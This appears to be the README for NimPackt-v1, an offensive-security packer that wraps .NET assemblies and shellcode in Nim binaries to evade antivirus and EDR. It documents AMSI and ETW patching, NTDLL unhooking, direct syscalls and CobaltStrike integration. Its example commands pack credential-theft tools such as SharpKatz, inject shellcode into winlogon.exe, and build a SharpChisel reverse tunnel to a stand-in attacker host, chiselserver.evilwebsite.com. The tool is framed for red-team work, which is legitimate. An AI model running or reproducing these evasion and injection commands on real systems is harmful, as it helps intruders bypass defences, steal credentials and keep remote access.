

# A Nim-based packer for .NET executables and raw shellcode

*By **Cas van Cooten** ([@chvancooten](https://twitter.com/chvancooten))*

*With special thanks to Marcello Salvati ([@byt3bl33der](https://twitter.com/byt3bl33d3r)) and Fabian Mosch ([@S3cur3Th1sSh1t](https://twitter.com/ShitSecure))*

## Description

**Update:** _NimPackt-v1 is among the worst code I have ever written (I was just starting out learning Nim). Because of this, I started on a full rewrite of NimPackt, dubbed 'NimPackt-NG' (currently still private). With this re-write, I decided to open-source the old branch ("NimPackt-v1"). As such, this branch is no longer maintained and comes without any form of warranty or support. PRs are always welcome, of course :)_

NimPackt is a Nim-based packer for .NET (C#) executables and shellcode targeting Windows. It automatically wraps the payload in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. There are two main execution methods: 
- `Execute-Assembly` re-packs a .NET executable and runs it, optionally applying evasive measures such as API unhooking, AMSI patching, or disabling ETW.
- `Shinject` takes raw a .bin file with raw, position-independent shellcode and executes it locally or in a remote process, optionally using direct syscalls to trigger the shellcode or patching API hooks to evade EDR.

Currently, NimPackt has the following features.

- Uses static syscalls to patch execute to evade EDR
- Unhooks user-mode APIs for spawned thread by refreshing `NTDLL.dll` using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Patches Event Tracing for Windows (ETW) 
- Patches the Anti-Malware Scan Interface (AMSI)
- AES-encrypts payload with random key to prevent static analysis or fingerprinting
- Compiles to `exe` or `dll`
- Supports cross-platform compilation (from both Linux and Windows)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

## Installation

> If you are having issues compiling the binary with Syscalls, try downgrading your GCC to version 8.1.0 (especially on Windows). ALWAYS test generated payloads!

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### Docker

The Docker image [chvancooten/nimbuild](https://hub.docker.com/r/chvancooten/nimbuild) can be used to compile NimPackt-v1 binaries. Using Docker is easy and avoids dependency issues, as all required dependencies are pre-installed in this container.

To use it, install Docker for your OS and ensure the input shellcode is in the current folder. Then, start the compilation in a container as follows.

```bash
docker run --rm -v `pwd`:/usr/src/np -w /usr/src/np chvancooten/nimbuild python3 NimPackt.py -e shinject -i sc.bin
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!




## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a ARGUMENTS] [-na] [-ne] [-r]
                   [-t INJECTTARGET] [-E] [-o OUTPUTFILE] [-nu] [-ns] [-f FILETYPE] [-s] [-32] [-S]
                   [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-
                        time arguments (default)
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default
                        false, implies -r) (WARNING: VOLATILE)

other arguments:
  -o OUTPUTFILE, --outfile OUTPUTFILE
                        Filename of the output file (e.g. "LegitBinary"). Specify WITHOUT extension
                        or path. This property will be stored in the output binary as the original
                        filename
  -nu, --nounhook       Do NOT unhook user-mode API hooks in the target process by loading a fresh
                        NTDLL.dll
  -ns, --nosyscalls     Do NOT use direct syscalls (Windows generation 7-10) instead of high-level
                        APIs to evade EDR
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -s, --sleep           Sleep for approx. 30 seconds by calculating primes
  -32, --32bit          Compile in 32-bit mode (untested)
  -S, --showConsole     Show a console window with the app's output when running
  -d, --debug           Enable debug mode (retains .nim source file in output folder)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept arguments at runtime, patching NTDLL hooks, AMSI, and ETW while printing verbose messages to a visible console at runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -S -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not unhook, patch AMSI, or disable ETW, hide the application window at runtime
python3 NimPackt.py -nu -na -ne -e execute-assembly -i bins/SharpChisel.exe -a 'client --keepalive 25s --max-retry-interval 25s https://chiselserver.evilwebsite.com R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread through direct syscalls, unhooking NTDLL as well
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll

# Pack raw shellcode to execute in a newly spawned Calculator thread in an invisible window
python3 NimPackt.py -i calc.bin -e shinject -t "calc.exe"

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe'), do not use direct syscalls or unhook NTDLL
python3 NimPackt.py -i calc.bin -e shinject -r -E -t "winlogon.exe" -nu -ns
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files can be executed as follows (entry point can be changed in the Nim template):

```powershell
rundll32 exampleShinjectNimPackt.dll,IconSrv
```